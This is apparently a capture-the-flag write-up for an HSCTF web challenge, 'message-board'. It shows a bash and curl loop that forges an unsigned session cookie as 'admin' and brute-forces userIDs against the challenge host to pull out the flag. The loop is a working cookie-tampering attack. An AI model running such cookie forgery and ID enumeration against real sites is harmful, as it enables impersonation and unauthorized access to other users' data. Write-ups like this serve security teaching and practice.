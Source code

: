 # Injection(Web) - Writeup

## description

````
web/message-board
goose

Your employer, LameCompany, has lots of gossip on its company message board: message-board.hsc.tf. You, Kupatergent, are able to access some of the tea, but not all of it! Unsatisfied, you figure that the admin user must have access to ALL of the tea. Your goal is to find the tea you've been missing out on.

Your login credentials: username: kupatergent password: gandal

Server code is attached (slightly modified).
````


## answer

When you log in with the credentials in the problem statement, you will see the conversation screen.
![000-1](https://user-images.githubusercontent.com/45488828/122660831-7d88ad00-d1bf-11eb-8655-7ebbb667975f.jpg)
![001-1](https://user-images.githubusercontent.com/45488828/122660833-7feb0700-d1bf-11eb-9299-bdae4404086c.jpg)
![002-1](https://user-images.githubusercontent.com/45488828/122660885-fdaf1280-d1bf-11eb-8eef-fb6b2a234dc2.jpg)

The login ID and user name are managed by the coockie value, which seems to be rewritable.

userData = j%3A%7B%22userID%22%3A%22972%22%2C%22username%22%3A%22kupatergent%22%7D

Rewrite username to admin and then search for userID.

````
┌──(root💀kali)-[~]
└─# for i in {100..999}; do
curl -H "Cookie:userData=j%3A%7B%22userID%22%3A%22$i%22%2C%22username%22%3A%22admin%22%7D" https://message-board.hsc.tf/ | grep flag{
done

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1819  100  1819    0     0   2229      0 --:--:-- --:--:-- --:--:--  2226
        <p><strong data-bs-toggle="tooltip" title="what a cool name">HSCTF:</strong> flag{y4m_y4m_c00k13s}</p>

````

###### flag{y4m_y4m_c00k13s}
